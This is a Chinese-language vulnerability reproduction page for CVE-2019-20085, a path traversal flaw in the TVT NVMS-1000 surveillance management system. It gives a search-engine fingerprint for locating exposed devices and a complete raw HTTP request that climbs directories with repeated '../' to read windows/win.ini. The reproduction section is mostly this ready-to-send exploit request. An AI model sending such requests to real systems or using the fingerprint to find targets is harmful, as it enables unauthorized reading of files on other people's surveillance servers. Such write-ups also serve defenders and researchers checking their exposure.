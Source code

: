 # TVT数码科技 NVMS-1000 路径遍历漏洞 CVE-2019-20085

## 漏洞描述

TVT数码科技 TVT NVMS-1000是中国TVT数码科技公司的一套网络监控视频管理系统。 TVT数码科技 TVT NVMS-1000中存在路径遍历漏洞。远程攻击者可通过发送包含/../的特制URL请求利用该漏洞查看系统上的任意文件

## 漏洞影响

<a-checkbox checked>TVT NVMS-1000</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TVT-NVMS-1000"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/tvt-1.png)



发送请求包读取文件



```plain
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/tvt-2.png)